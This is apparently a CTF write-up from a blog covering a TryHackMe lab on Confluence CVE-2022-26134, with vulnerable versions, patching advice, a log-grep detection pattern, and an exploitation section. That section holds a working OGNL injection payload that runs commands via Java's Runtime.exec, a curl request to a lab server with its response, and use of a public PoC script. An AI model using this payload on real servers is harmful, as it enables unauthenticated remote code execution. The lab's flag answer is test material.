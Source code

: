 ```yaml
---
weight: 3
title: "CTF writeup - Atlassian CVE-2022-26134"
date:
lastmod: 2022-08-29T14:16:40+08:00
description: "Another late night CTF on the awesome platform TryHackMe"
featuredImage: "tryhackmebanner.jpg"
hiddenfeaturedImage: false

tags: ["TryHackMe", "CTF", "Linux"]
categories: ["Writeups"]

lightgallery: false
summary: This is a short walkthrough of how to exploit, threat hunt & remediate the Atlassian CVE-2022-26134.
---
```


# Atlassian, CVE-2022-26134

![Untitled](/atlassian/Untitled.png)

On May the 30th, 2022, an organisation named Volexity identified an un-authenticated RCE vulnerability (scoring 9.8 on NIST) within Atlassian's Confluence Server and Data Center editions.

Confluence is a collaborative documentation and project management framework for teams. Confluence helps track project status by offering a centralised workspace for members.

The following versions of Confluence are vulnerable to this CVE:

```
1.3.0 -> 7.4.17
7.13.0 -> 7.13.7
7.14.0 -> 7.14.3
7.15.0 -> 7.15.2
7.16.0 -> 7.16.4
7.17.0 -> 7.17.4
7.18.0 -> 7.18.1

```

You can view the NIST entry for CVE-2022-26134 [here.](https://nvd.nist.gov/vuln/detail/CVE-2022-26134)

# Login portal

![Untitled](/atlassian/Untitled%201.png)

# Explaining the vulnerability

This CVE uses a vulnerability within the OGNL (Object-Graph Navigation Language) expression language for Java (surprise, surprise ... it's Java). OGNL is used for getting and setting properties of Java objects, amongst many other things.

For example, OGNL is used to bind front-end elements such as text boxes to back-end objects and can be used in Java-based web applications such as Confluence. We can see how OGNL is used in the screenshot below. Values are input to a web form, where these values will be stored into objects within the application:

A web page with questions and a input text field to the right of each question, displaying how values input into a web form can be stored in the back-end using OGNL

![Untitled](/atlassian/Untitled%202.png)

*Thanks to [Journaldev.com](http://journaldev.com/) for this example of OGNL in use.*

We can abuse the fact that OGNL can be modified; we can create a payload to test and check for exploits.

# Patching

Atlassian has released an advisory for their products affected by this CVE, which you can read here. To resolve the issue, you need to upgrade your Confluence version. The suggested list at the time of publication is:

```
7.4.17
7.13.7
7.14.3
7.15.2
7.16.4
7.17.4
7.18.1

```

## Detection - Log Files

Confluence is an Apache Tomcat server which has logging located in /opt/atlassian/confluence/logs. You can use commands like grep to search for HTTP GET requests of payloads that are using Java runtime to execute commands. For example:

```bash
grep -R "/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22" in catalina.out

```

## Detection - YARA

If you have Yara installed on the server running Confluence, Volexity (the finders of the vulnerability) has created the following Yara rule for you to use, located here.

Unfamiliar with Yara? Check out the Yara room on TryHackMe [here](https://tryhackme.com/room/yara).

# Exploitation

We can abuse the fact that OGNL can be modified; we can create a payload to test and check for exploits.

In order to exploit this vulnerability within OGNL, we need to make an HTTP GET request and place our payload within the URI. For example, we can instruct the Java runtime to execute a command such as creating a file on the server: 

```bash
${@java.lang.Runtime@getRuntime().exec("touch /tmp/thm/")}/  .
```

This will need to be URL encoded, like the following snippet below. You can use thewebsite [https://www.urlencoder.org/](https://www.urlencoder.org/) to help URL encode your payloads (note that your **curl** payload will need to end in a trailing **/** and not **$2F**):

```bash
┌──(kali㉿kali)-[~]
└─$ curl -v [http://10.10.63.161:8090/%24{%40java.lang.Runtime%40getRuntime().exec("touch /tmp/thm")}/](http://10.10.63.161:8090/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/thm%22%29%7D/)

- Trying 10.10.63.161:8090...
- Connected to 10.10.63.161 (10.10.63.161) port 8090 (#0)

> GET /%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/thm%22%29%7D/ HTTP/1.1
Host: 10.10.63.161:8090
User-Agent: curl/7.84.0
Accept: /
> 
- Mark bundle as not supporting multiuse
< HTTP/1.1 302
< X-ASEN: SEN-L18512764
< X-Confluence-Request-Time: 1661613209991
< Set-Cookie: JSESSIONID=106FD01E12D08A53C9C95A3DBD577ADF; Path=/; HttpOnly
< X-XSS-Protection: 1; mode=block
< X-Content-Type-Options: nosniff
< X-Frame-Options: SAMEORIGIN
< Content-Security-Policy: frame-ancestors 'self'
< Location: /login.action?os_destination=%2F%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch+%2Ftmp%2Fthm%22%29%7D%2Findex.action&permissionViolation=true
< Content-Type: text/html;charset=UTF-8
< Content-Length: 0
< Date: Sat, 27 Aug 2022 15:13:30 GMT
<
- Connection #0 to host 10.10.63.161 left intact
```

When looking at the server, we can see that it is vulnerable:

```bash
cmnatic@thm-cve-2022-26134:~$ ls /tmp
hsperfdata_confluence
thm
snap.lxd
```

The file “thm” was succesfully created.

# Proof of concept

There are a couple of ways we can exploit this. One of them is to download a POC by Samy Younsi (Mwqda) written in Python and hosted on GitHub.

First, we need to download the PoC to our host. I have decided to clone to the repository using git for this room.

```bash
git clone <https://github.com/Nwqda/CVE-2022-26134>
cd CVE-2022-26134

```

After navigating to the source code, let's execute the script. Replace "COMMAND" with the command you wish to execute (Remember to use quotation marks when running commands that have special characters and such.)

```bash
python3.9 cve-2022-26134.py <HTTP://10.10.63.161:8090> COMMAND

```

1. Create a payload to identify what user the application is running as? What is the user?
    1. We can see in the screenshot below that the application is running as the user “confluence”.
    
    ![Untitled](/atlassian/Untitled%203.png)
    
2. Finally, craft a payload to retrieve the flag stored at /flag.txt on the server. What is the flag?
    1. THM{OGNL_VULN}
    
    ![Untitled](/atlassian/Untitled%204.png)
    
    # Conclusion
    
    This was a brief showcase of the [CVE-2022-26134](https://nvd.nist.gov/vuln/detail/CVE-2022-26134) OGNL Injection vulnerability. Remember, OGNL is an expression language for Java-based web applications, so this vulnerability will also apply to other web apps running the same classes that Confluence uses!
    
    ## Additional Reading Material
    
    - [Hunting for Confluence RCE [CVE-2022–26134]](https://medium.com/@th3b3ginn3r/hunting-for-cve-2022-26134-confluence-rce-on-linux-server-ae9ce0176b4a)
    - [Exploring and remediating the Confluence RCE](https://www.datadoghq.com/blog/confluence-vulnerability-overview-and-remediation/)